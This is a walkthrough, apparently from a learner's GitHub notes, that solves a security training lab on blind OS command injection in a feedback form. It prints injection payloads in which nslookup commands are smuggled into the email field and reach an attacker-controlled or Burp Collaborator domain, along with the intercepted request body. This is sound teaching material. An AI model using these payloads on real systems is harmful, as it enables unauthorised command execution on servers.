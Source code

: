 # Lab Blind OS command injection with out-of-band interaction

## Objective:

 This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator. 

## Big Idea:

You can use an injected command that will trigger an out-of-band network interaction with a system that you control, using OAST techniques. For example:

`& nslookup kgji2Ohoyw.web-attacker.com &`

This payload uses the nslookup command to cause a DNS lookup for the specified domain. The attacker can monitor for the specified lookup occurring , and thereby detect that the command was successfully injected. 

This is what the landing page looks like.

![image](https://user-images.githubusercontent.com/90155329/135768102-7831ee20-ac01-478c-89a9-594820d97651.png)

I visited the "Submit feedback" function which responded with the following page.

![image](https://user-images.githubusercontent.com/90155329/135768110-bb6f8d56-297c-49ac-ba79-eb1915a703ba.png)

One of these user input fields runs a command in the background and is vulnerable to OS command injection. 

Since this lab is focused on out of band techniques, I will start Burp Collaborator. Burp Collaborator acts as a listener and can be used to test out of band command injections. 

To Start Burp Collaborator visit Burp > Burp Collaborator Client

![image](https://user-images.githubusercontent.com/90155329/135768125-a8b94fae-0b98-4481-a0bb-ce87b588fdda.png)

To get my unique subdomain, click "Copy to clipboard"

![image](https://user-images.githubusercontent.com/90155329/135768134-2934bd9f-0d08-4c37-ac29-108818e712e5.png)

My unique domain is the following
j8swo5h0vh9kafljvq2tlq72mtsjg8.burpcollaborator.net

Any traffic that gets sent to the above domain will be displayed in my Burp Collaborator client. 

Back to the feedback, page I sent the following values and intercepted the request with Burp Intercept.

![image](https://user-images.githubusercontent.com/90155329/135768143-cae2f256-b70c-4947-be2f-e21fb94e6ed4.png)

![image](https://user-images.githubusercontent.com/90155329/135768151-bf13b63a-1ef5-4f27-be68-60a4530cd28a.png)

I sent the request to repeater and tried injecting a payload which would have the server ping itself 

ping -c 20 127.0.0.1

![image](https://user-images.githubusercontent.com/90155329/135768155-c5f2eb6a-c4e9-43c8-9d42-71fdc2f5a060.png)

This payload did not work. 

I will try doing an nslookup on my burp collaborator client

The following command performs the dns request

` nslookup j8swo5h0vh9kafljvq2tlq72mtsjg8.burpcollaborator.net `

The following is what the command injection looks like inside of the http body

` csrf=qinivqp5NIpW6K2K5CO3O0eogtqjfBKf&name=bagelHacks&email=bagelHacks%40hacker.hacker`nslookup+j8swo5h0vh9kafljvq2tlq72mtsjg8.burpcollaborator.net`&subject=test&message=testing+ `

![image](https://user-images.githubusercontent.com/90155329/135768169-c048eb17-bf45-4951-ae5b-a1990aef8c10.png)


From Burp Collaborator, I can see DNS queries which means the nslookup command was successful on the target web server

![image](https://user-images.githubusercontent.com/90155329/135768175-b507620c-7b46-41db-bc89-2d02a9f94c1d.png)

![image](https://user-images.githubusercontent.com/90155329/135768181-601379ed-748a-4fa2-8e77-beac65a748ef.png)






